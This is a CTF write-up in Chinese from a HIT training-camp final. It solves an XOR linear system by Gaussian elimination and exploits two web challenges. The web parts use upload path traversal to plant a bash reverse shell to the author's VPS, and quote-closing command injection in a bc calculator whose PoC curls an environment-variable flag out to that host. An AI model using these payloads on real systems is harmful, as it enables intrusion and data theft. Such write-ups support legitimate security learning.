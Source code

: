 # HIT青训营结营比赛Writeup


## 0x01 签到

没什么好说的

## 0x02 mix

这题大概的意思是给一个128*128的数组，找出其中异或和为1（128位全为1）的某些行。这里直接搜索的话大概要$2^{128}$肯定算不出来。由于flag的中间部分是128位二进制数，我们假设这128位为$x_0x_1...x_{127}$，将数组的第i行第j列设为$a_{ij}$，那么可以列出以下方程组：

$a_{11}x_1⊗a_{12}x2⊗...a_{1_{127}}x_{127}=1 $

$a_{21}x_1⊗a_{22}x2⊗...a_{2_{127}}x_{127}=1 $

……

$a_{i1}x_1⊗a_{i2}x2⊗...a_{i_{127}}x_{127}=1 $

……

这就可以看做一个异或方程组，增广矩阵是$[a^T,1]$（为什么要转置：是因为实际上是原数组每一列和flag相乘）。那么此时就可以使用高斯消元解出**唯一**的$x$解。首先使用python将$a$转置：

```python
A = A.splitlines()

def invert_row(row):
    return ''.join('0' if ch == '1' else '1' for ch in row)

def invert_matrix(A):
    return [invert_row(row) for row in A]

def mix(a, b):
    return ''.join('0' if x == y else '1' for x, y in zip(a, b))

int_A = [[int(char) for char in row] for row in A]

for i in range(128):
    for j in range(128):
        print(int_A[j][i],end=' ')
```

得到的结果储存在in.txt中，然后高斯消元求解：

```c++
#include <iostream>
#include <cstdio>
#include <cstring>

using namespace std;

const int N = 130;

int n;
int a[N][N];

int gauss()
{
    int r, c;
    for(r = 0, c = 0; c < n; c ++) {
        int t = r;
        for(int i = r; i < n; i ++) {
            if(a[i][c]) {
                t = i;
                break;
            }
        }
        if(!a[t][c]) continue;
        for(int i = c; i < n + 1; i ++) swap(a[r][i], a[t][i]);
        for(int i = r + 1; i < n; i ++) {
            if(a[i][c]) {
                for(int j = n; j >= c; j --) {
                    a[i][j] ^= a[r][j];
                }
            }
        }
        r ++;
    }
    if(r < n) {
        for(int i = r; i < n; i ++) {
            if(a[i][n]) {
                return 2;
            }
        }
        return 1;
    }
    for(int i = n - 1; i >= 0; i --) {
        for(int j = i + 1; j < n; j ++) {
            a[i][n] ^= a[j][n] & a[i][j];
        }
    }
    return 0;
}

int main()
{
    freopen("in.txt", "r", stdin);
    n = 128;
    for(int i = 0; i < n; i ++) {
        for(int j = 0; j < n; j ++) {
            scanf("%d", &a[i][j]);
        }
    }
    for (int i = 0;i < n;++i) {
        a[i][128] = 1;
    }	//增广矩阵
    int t = gauss();
    if(!t) for(int i = 0; i < n; i ++) printf("%d", a[i][n]);
    else if(t == 1) puts("Multiple sets of solutions");
    else puts("No solution");
    fclose(stdin);
    return 0;
}
```

得到唯一解：`11100010101100110011111101010001111010000110000100101101010110110110110011000110111101111101111110111011101011001010101101101011`，由题目中的正则表达式得到，flag中为10进制的39位数字，转化后得到：`301336232466272917408453747777662135147`，刚好是39位，带入原题验证，成功解出flag。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126102128456.png)

## 0x03 Yesterday Once More               

![image-20240126153928216](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126153928216.png)

打开图片发现，其中的图片是通过readfile.cgi文件显示的，而且由题目可知，我们可以查看/usr/local/apache2/htdocs/cgi-bin/文件夹下的内容。于是，发现了index.cgi文件的源码。![image-20240126154052479](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126154052479.png)

```bash
#!/bin/bash

echo "Content-type: text/html"
echo ""

cat <<EOF
<!doctype html>
<html lang="en" data-theme="dark">
……
```

实际上是一个bash脚本，那我们也可以传上一个脚本来获得shell。可是直接上传的文件名会被重置为随机数。通过对处理上传的程序update.cgi进行逆向可知，如果上传文件的类型为hack/lilac则可以绕过文件名重置。

![image-20240126154447531](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126154447531.png)

于是可以成功上传cgi文件。但此时访问则会显示500错误。猜测原因是上传的文件没有执行权限。在测试上传路径时候发现，可以通过`..`路径穿越上传到父文件夹。于是，想到覆盖有权限的文件，也就是index.cgi、readfile.cgi或upload.cgi这三个文件。但是覆盖后两者风险比较大，可能无法继续往后做题，于是选择覆盖index.cgi，同时需要注意在linux中完成，因为windows和linux的换行符不一样。

这里选择直接将index.cgi下载下来，（通过readfile.cgi文件），然后在其中加入以下语句：

```bash
bash -i >& /dev/tcp/124.223.190.186/9355 0>&1
```

124.223.190.186是本人的vps地址，这里反弹shell纯粹是为了省事一点，不然每改一次命令就需要重新上传文件。

![image-20240126171647774](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126171647774.png)

成功之后，访问index.cgi，成功得到shell。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126172105205.png)

根据提示，第一个flag在根目录，直接cat /flag解得第一个flag。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126172159579.png)

> 第二问确实是需要提权的，当时一直以为是suexec提权，其实不是，所以一直没做出来。最后的答案就在root的1进程中的环境变量中。

## 0x04 bad_calculator

首先随便计算一个结果然后抓包，发现是在calc接口带入expr参数进行计算的：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126165709319.png)

那么首先想到的就是RCE。首先尝试了直接使用;和&&断句，发现没有成功。

这时想到bc的一般用法应该是`echo "3*5" | bc`，于是尝试闭合引号，这里试了两种引号，只有双引号可以。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126170141981.png)

此时想直接ls看看文件，发现出来的一大堆数字：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126170245927.png)

然后echo了一些东西，发现字母是不能输出的。

此时没有思路了，想着reverse shell到自己的VPS试一下，结果使用bash直接建立tcp连接失败了。而且不清楚原因。

偶然间试了下curl发现竟然可以收到GET请求。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126170533965.png)

题目提示是环境变量，那么试一试能不能带点东西出来，首先试下$PATH，发现可以。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126170651608.png)

但是，flag在什么环境变量里面了？根据测试赛和以往的经验，我依次尝试了flag、FLAG、FLAG1最终FLAG1成功带出flag。

![image-20240126215700933](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20240126215700933.png)

最终Poc如下所示

```
http://camp.hitctf.cn:25657/calc
?expr=a";curl http://124.223.190.186:9355/${FLAG1};echo "5*4
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2024/01/hitctfwriteup/  

